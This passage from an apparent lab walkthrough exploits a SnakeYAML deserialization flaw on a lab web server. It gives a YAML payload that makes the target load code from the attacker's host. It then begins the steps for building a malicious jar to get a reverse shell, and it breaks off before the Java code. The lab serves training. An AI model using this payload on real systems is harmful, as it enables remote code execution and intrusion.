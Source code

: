 > Note: There might be special characters than don't trigger the expected error page.

Here you will notice multiple instances of `org.yaml.snakeyaml`. If you perform some research on this Java library, you will discover that it is used to parse YAML and, that it is known to have a recent deserialization vulnerability. Let's built a payload now to take advantage of this vulnerability. 

4. First, run the following command in your kali VM terminal to obtain your IP: 

```bash
ip a
```

In our case, it is `10.5.5.64`. Yours might be different. 

3. Enter the following into the text box found in the web server `http://10.5.5.85:8080` (Make sure to use your Kali IP):

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://<kali-ip-address>/"]
  ]]
]
```

The code above will make a request to your IP address. We can use this to get remote code execution (RCE). We will create the rest of the exploit in the next step.

> Note: We will be using the following proof of concept as reference. See: `https://github.com/artsploit/yaml-payload/`.

We will now build out the `.jar` file and place our payload in order to get a reverse shell.

4. Let's start by creating the required files and directories (Make sure you follow the correct folder structure below): 

```bash
mkdir -p /home/user/payload/
mkdir -p /home/user/payload/src/META-INF/services/
mkdir -p /home/user/payload/src/artsploit/
touch /home/user/payload/src/META-INF/services/javax.script.ScriptEngineFactory
touch /home/user/payload/src/artsploit/AwesomeScriptEngineFactory.java
```

5. Using your favorite text editor, open the `javax.script.ScriptEngineFactory` file. We will use `nano` as an example: 

```bash
nano /home/user/payload/src/META-INF/services/javax.script.ScriptEngineFactory
```

6. Then, type or copy the line below to the `javax.script.ScriptEngineFactory` file you opened above:

```
artsploit.AwesomeScriptEngineFactory
```

7. Now, using your favorite text editor, let's open the other file we created above, `AwesomeScriptEngineFactory.java`. We will use `nano` again:
